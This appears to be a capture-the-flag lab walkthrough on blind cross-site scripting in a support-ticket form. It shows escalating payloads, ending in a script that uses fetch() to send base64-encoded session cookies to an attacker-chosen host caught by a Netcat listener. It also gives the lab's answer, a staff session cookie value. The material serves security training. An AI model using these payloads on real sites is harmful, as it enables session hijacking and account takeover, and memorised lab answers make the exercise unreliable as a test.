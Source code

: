 # Blind XSS Practical

-  You’ll need to use the `AttackBox` using the **<ins>blue</ins>** button at the top of the page. 

- Once loaded, open the link below inside the AttackBox’s Firefox browser to view the target website.

```
https://THM_LAB_IP_ADDRESS.p.thmlabs.com
```

  ![image](https://user-images.githubusercontent.com/63872951/187017813-146b952b-9d44-4ecd-a940-2861ccdc5bc4.png)

# Steps to follow:

- Click on the `Customers` tab on the top navigation bar and click the `"Signup here"` link to create an account. 

  ![image](https://user-images.githubusercontent.com/63872951/187017889-1a09dfad-cdee-49de-8bad-5c903d7bd35f.png)

  ![image](https://user-images.githubusercontent.com/63872951/187018793-c11381dd-7983-410c-a6c8-e03aa1135670.png)

  
- Once your account gets set up, click the `Support Tickets` tab, which is the feature we will investigate for weaknesses. 

  ![image](https://user-images.githubusercontent.com/63872951/187018880-3d273273-8572-4676-9876-dffcdf793a1d.png)

- Try creating a support ticket by clicking the green `Create Ticket` button, enter the subject and content of just the word `"test"` and then click the blue Create Ticket button. 

- You'll now notice your new ticket in the ***list*** with an ***id*** number which you can click to take you to your newly created ticket. 

  ![image](https://user-images.githubusercontent.com/63872951/187018950-f3bb7f5a-d8b2-4467-8aa8-ed83cfeafd70.png)

  ![image](https://user-images.githubusercontent.com/63872951/187018980-03fe8f03-c437-4cc0-b936-7dfe0f77c62d.png)

- We will investigate how the ***previously entered text*** gets reflected on the page. 

- Upon viewing the page source, we can see the text gets placed inside a `textarea` tag.

  ![image](https://user-images.githubusercontent.com/63872951/187019068-47ecdd76-90cc-42ca-8e5f-03e553840916.png)

# Tampering

- Let's now go back and create another ticket. Let's see if we can escape the `textarea` tag by entering the following **[payload 1](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads/payload1.js)** into the ticket contents:

  ```
  </textarea>test
  ```

- Again, opening the ticket and viewing the ***page source***, we've `successfully escaped` the `textarea` tag. 

  ![image](https://user-images.githubusercontent.com/63872951/187019217-dc231929-0240-41b9-9adc-865f2a803fd0.png)

- Let's now expand on this payload to see if we can `run JavaScript` and confirm that the ticket creation feature is ***vulnerable to an XSS*** attack. 

- Try another new ticket with the following **[payload 2](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads/payload2.js)**:
  
  ```js
  </textarea><script>alert('THM');</script>
  ```

- Now when you view the ticket, you should get an alert box with the `string THM`. 

  ![image](https://user-images.githubusercontent.com/63872951/187019314-1302c876-3992-484d-88cf-f405ab2e2eaa.png)

- We're going to now expand the payload even further and increase the vulnerabilities impact. 

- Because this feature is creating a support ticket, we can be reasonably confident that a staff member will also view this ticket which we could get to execute JavaScript.  
# Using NetCat

- Some helpful information to extract from another user would be their ***cookies***, which we could use to ***elevate our privileges*** by hijacking their `login session`. 

- To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. 

- Firstly, we'll need to set up a listening server to receive the information using `Netcat`

  ![image](https://user-images.githubusercontent.com/63872951/187019471-bcd89f02-cf06-49ac-8171-63c5c60a3e4f.png)
  
- Now that we've set up the method of receiving the exfiltrated information, let's build the [payload](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads/payload3.js).
  ```js
  </textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
  ```

# [Used Payloads](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/tree/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads)

## Let's breakdown the payload to be used in this step:

- The `</textarea>` tag closes the textarea field. 

- The `<script>` tag opens open an area for us to write JavaScript.

- The `fetch()` command makes an HTTP request.

- `{URL_OR_IP}` is either the THM request catcher URL or your IP address from the THM AttackBox or your IP address on the THM VPN Network.

- `?cookie=` is the query string that will contain the victim's cookies.

- `btoa()` command base64 encodes the victim's cookies.

- `document.cookie` accesses the victim's cookies for the Acme IT Support Website.

- `</script>` closes the JavaScript code block.

- Now create another ticket using the **[above payload 3](https://github.com/ShubhamJagtap2000/Cross-site-Scripting/blob/main/12%20-%20Blind%20XSS%20Practical/Used%20Payloads/payload3.js)**, making sure to swap out the `{URL_OR_IP:Port}` variable to your settings `(make sure to specify the port number as well for the Netcat listener)`. 

- Now, wait up to a minute, and you'll see the ***request*** come through containing the victim's cookies. Here's what I received:

  ![image](https://user-images.githubusercontent.com/63872951/187019934-f484c88e-c610-47f4-bd2f-f1abe27803ba.png)
  
- You can now base64 decode this information using a site like https://www.base64decode.org/, giving you the necessary information to answer the below question.


What is the value of the staff-session cookie?
```
4AB305E55955197693F01D6F8FD2D321
```
